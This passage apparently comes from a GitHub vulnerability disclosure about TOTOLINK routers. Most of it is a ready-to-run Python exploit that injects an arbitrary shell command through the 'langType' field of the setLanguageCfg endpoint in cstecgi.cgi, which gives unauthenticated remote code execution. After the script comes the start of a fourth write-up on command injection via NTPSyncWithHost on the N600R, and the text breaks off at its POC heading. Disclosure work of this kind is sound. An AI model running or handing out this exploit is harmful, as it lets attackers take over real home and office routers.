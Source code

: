 ```
```

#### EXP

```
import sys
import requests
import json
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi"%(ip,port)



headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
	}
data={
	"topicurl":"setting/setLanguageCfg",
	"langType":"cn;{};".format(command)
}


requests.post(url,headers=headers,data=json.dumps(data))
```

#### verification

![image-20220221180334179](https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20220221180334179.png)

### Vulnerability4

#### Detail

​	In TOTOLINK N600R equipment,Command injection at setting/NTPSyncWithHost can lead to unauthenticated RCE

<img src="https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20211111141412938.png" alt="image-20211111141412938" style="zoom:50%;" />

#### POC

